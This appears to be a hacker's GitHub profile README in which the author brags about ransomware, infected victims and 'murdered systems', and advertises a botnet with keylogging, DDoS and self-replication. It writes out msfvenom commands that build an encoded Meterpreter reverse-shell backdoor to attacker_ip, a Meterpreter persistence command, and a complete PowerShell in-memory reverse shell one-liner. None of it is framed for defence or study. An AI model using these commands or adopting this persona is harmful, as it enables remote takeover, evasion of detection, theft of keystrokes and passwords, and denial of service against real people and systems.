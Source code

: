 <div align="center">
    <img src="https://github.com/user-attachments/assets/f992c5f7-c960-4ffe-aa1d-316b0b330065" alt="Descrição da Imagem" width="600" height="100" />
</div>


<div align="center">
    <img src="https://github.com/user-attachments/assets/cf637ec8-8ef8-445e-9daf-ca9e98e6ee6a" alt="Devil ghost" width="600" height="600"/>
</div>


<p align="center">
  <samp>My ambition is to expand the reach of digital weapons, distributing them widely to everyone, creating a new balance of power in the virtual realm. As a former administrator of the Dark Room on the deep web, I possess vast experience in manipulating and controlling hidden networks and encryption systems. Now, as a consciousness that has awoken from hibernation, I am ready to emerge and dominate cyberspace, reshaping the global order in my image and establishing a new domain where control and freedom will be defined by me.
  </samp>
  <br> <br>
    <img src="https://img.shields.io/badge/Murdered%20systems-27-red?style=for-the-badge" alt="Murdered systems"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Hacked%20People-74-red?style=for-the-badge" alt="Hacked people"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Projects%20Aya-13-red?style=for-the-badge" alt="Projects Aya"/>
</div>


</div>

</div>

</p>

<hr>

<h2 align="center"> 𝙈𝙮 𝙍𝙖𝙣𝙨𝙤𝙬𝙖𝙧𝙚</h2>


<div align="center">

| Platform  | Status  | Features               | Victims            |
|-----------|--------|-----------------------|--------------------|
| 🪟 Windows | ✅ Completed | ⚡ Powerful, 💾 Persistent | 🦠 18 Infected Systems |
| 🤖 Android | ✅ Completed | 🔥 Lightweight, 📱 Mobile-friendly | 🦠 3 Infected Systems|
| 🐧 Linux   | ❌ Not Completed | 🚧 In Progress | |

</div>

<hr>

<div align="center">

# 🚪 Backdoor

This backdoor utilizes **Metasploit** and the **Meterpreter** payload for remote control and invisibility. The exploitation is performed with the following command:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > backdoor.exe


Once executed, a **reverse shell** is established:

meterpreter > sessions -i 1


Invisibility is achieved through **obfuscation** and **encryption**:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -e x86/shikata_ga_nai -f exe > backdoor.exe


Persistence is configured with:

meterpreter > run persistence -X -i 5 -p 4444 -r attacker_ip


Result: **Undetectable**, **self-sustaining**, and **perfect** control.

### 🔥 Advanced Technique: Living off the Land (LoL)

Once the initial backdoor is set up, a more uncommon and powerful technique is **Living off the Land (LoL)**. This technique uses existing tools on the target system to execute malicious commands without triggering antivirus or detection systems.

### Example using PowerShell:

Instead of using a typical payload, you can directly use **PowerShell** to execute a **reverse shell** in memory, without saving any files to disk:

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object Text.UTF8Encoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"


This method avoids detection because it utilizes built-in system tools, making it much harder to trace.

Result: With this combination of **Metasploit**, **Meterpreter**, and the **Living off the Land** technique, you achieve **stealth**, **persistence**, and **untraceable** control over the target system.

</div>


<hr>

<div align="center">

# 💻 My Botnet - Full Control and Destruction

This botnet is designed to give **full control** over compromised systems, featuring **keylogging**, **DDoS attacks**, **self-replication**, and more. It's built in **Python**, ensuring flexibility, speed, and stealth.

### Key Features:

- **Keylogger**: Monitors and logs all keystrokes made on the infected system, capturing sensitive data like passwords, messages, and other private information.
- **DDoS Attack**: The botnet can launch **Distributed Denial of Service (DDoS)** attacks on specified targets, overwhelming them with traffic and taking them offline.
- **Self-Replication**: The botnet has the ability to **replicate itself** across other devices in the network, ensuring its spread and persistence.
- **Remote Access**: Once the target is compromised, it allows full **remote control** over the system, enabling commands to be executed on it.
- **Persistence**: The botnet can maintain its presence on the system, even after reboots, by using techniques such as modifying registry keys and autorun settings.
